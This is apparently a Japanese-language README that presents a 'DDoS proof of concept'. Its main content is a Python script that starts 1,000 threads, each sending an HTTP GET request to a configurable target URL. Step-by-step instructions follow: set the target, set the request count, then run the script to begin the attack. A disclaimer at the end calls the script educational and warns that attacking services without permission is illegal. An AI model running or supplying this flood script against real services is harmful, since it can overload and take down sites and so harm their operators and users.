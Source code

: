 # DDoS Proof of Concept（PoC）の作成

## 概要
このPoCは、分散型サービス拒否（DDoS）攻撃の概念を実証するためのシンプルなスクリプトです。このスクリプトは、攻撃者が複数のコンピューターを使用して目標のウェブサイトまたはサービスに大量のトラフィックを送信することによって、ターゲットをオーバーロードさせ、サービスを停止させることを意図しています。

## 必要なツール
- Python 3.x
- requestsライブラリ

## インストール
```bash
pip install requests
```

## スクリプト

```python
import requests
import threading

# ターゲットのURL
target_url = "https://example.com"

# 送信するリクエストの数
num_requests = 1000

# リクエストを送信する関数
def send_request():
    try:
        response = requests.get(target_url)
        print("Request sent successfully")
    except Exception as e:
        print(f"Failed to send request: {e}")

# メイン関数
def main():
    print(f"Sending {num_requests} requests to {target_url}")
    for i in range(num_requests):
        thread = threading.Thread(target=send_request)
        thread.start()

if __name__ == "__main__":
    main()
```

## 使い方
1. Pythonを使用して上記のスクリプトを保存します。
2. 必要なモジュールをインストールします。
3. `target_url`変数に攻撃対象のURLを指定します。
4. `num_requests`変数に送信するリクエストの数を指定します。
5. スクリプトを実行し、攻撃を開始します。

## 注意事項
- このPoCは教育目的のみで使用してください。実際のサービスやウェブサイトに対する攻撃は違法です。
- テストする際は、自身が所有するサービスやウェブサイトを対象にしてください。他者の許可なく攻撃を行うことは違法行為です。
- サービスやウェブサイトに対する攻撃は、重大な影響を及ぼす可能性があります。慎重に行動してください。

